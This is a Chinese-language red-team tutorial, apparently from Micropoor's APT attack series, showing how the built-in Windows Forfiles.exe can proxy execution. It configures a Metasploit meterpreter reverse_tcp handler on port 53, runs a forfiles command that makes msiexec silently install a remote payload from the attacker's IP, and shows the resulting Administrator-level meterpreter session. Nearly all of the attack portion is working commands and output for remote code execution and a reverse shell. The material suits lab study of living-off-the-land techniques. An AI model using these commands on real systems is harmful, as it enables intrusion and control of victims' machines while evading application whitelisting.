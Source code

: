 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**Forfiles简介：**

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

Windows 7 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

**攻击机：** 192.168.1.4 Debian
**靶机：** 192.168.1.119 Windows 2003

**配置攻击机msf：**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
 ‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/caedeec0997c3ee413473c009faeebcb.jpg)

**靶机执行：Windows 2003**

![](media/6ff0192b4034032c1a131ee6ab4a876e.jpg)

`forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.1.4/Micropoor_rev_x86_msi_53.txt"`

![](media/43ffb66347850546f46981339421e5d4.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 15 opened (192.168.1.4:53 ‐> 192.168.1.119:133
1) at 2019‐01‐20 06:34:08 ‐0500
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 392
meterpreter > 
```
![](media/27318b0234b037aa459041021632b857.jpg)

>   Micropoor
